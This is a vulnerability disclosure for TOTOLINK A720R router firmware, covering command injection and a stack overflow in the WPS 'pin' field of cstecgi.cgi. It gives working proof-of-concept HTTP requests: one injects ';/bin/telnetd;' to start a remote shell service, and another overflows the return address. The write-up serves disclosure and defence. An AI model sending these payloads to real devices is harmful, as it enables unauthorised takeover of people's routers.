








# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Stack Overflow & Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang,Zuoguang Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn,wangzuoguang16@mails.ucas.ac.cn


## Vulnerability description

We found an vulnerability in TOTOLINK Technology router with firmware which was released recently.In `setWiFiWpsStart` function, `pin` is directly passed by the attacker, so we can control the `pin` to attack the OS or cause the stack overflow.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `setWiFiWpsStart` function, `pin` is directly passed by the attacker.

<div  align="center"></div>

As you can see here, there is a **judgment logic** here. If the value of the input character is less than 0x3A, it will be copied to the array(v16). **We can construct the input to fill the /x00 between the two arrays**(v16 and v17), which will cause the sprintf function to copy the contents of the two arrays to the array(v14). Then, the array(v16) as a parameter of system function causes the remote command execution.

**Stack Overflow**

In `cstecgi.cgi` binary:

In `setWiFiWpsStart` function,`pin` is directly passed by the attacker.

<div  align="center"></div>

As you can see here,The length of the input array(v17) is only 28 bytes, we can tamper with the content of the `pin` field, such as a very long string.After that, it will cause the function return address to be overwritten.

<div  align="center"></div>

**Supplement**

<div  align="center"></div>

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, the length can be limited to only 8 and must be a number.


## PoC

**Remote Command Execution**

We set `pin` as **11111111111111111111;/bin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/wps.html
Cookie: SESSION_ID=2:1591951164:2

{"wifiIdx":"0","wscMode":"1","pin":"11111111111111111111;/bin/telnetd;","wscDisabled":"0","topicurl":"setWiFiWpsStart"}
```

<div  align="center"></div>

**Stack Overflow**

We set `pin` as **AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB** , it cause the stack overflow:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 141
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/wps.html
Cookie: SESSION_ID=2:1591952948:2

{"wifiIdx":"0","wscMode":"1","pin":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB","wscDisabled":"0","topicurl":"setWiFiWpsStart"}
```

<div  align="center"></div>


## Result

**Remote Command Execution**

The target router has enabled the telnet service.

<div  align="center"></div>

**Stack Overflow**

The function return address to be overwritten(ra),This may allows attackers to achieve remote code execution.

<div  align="center"></div>

<div  align="center"></div>

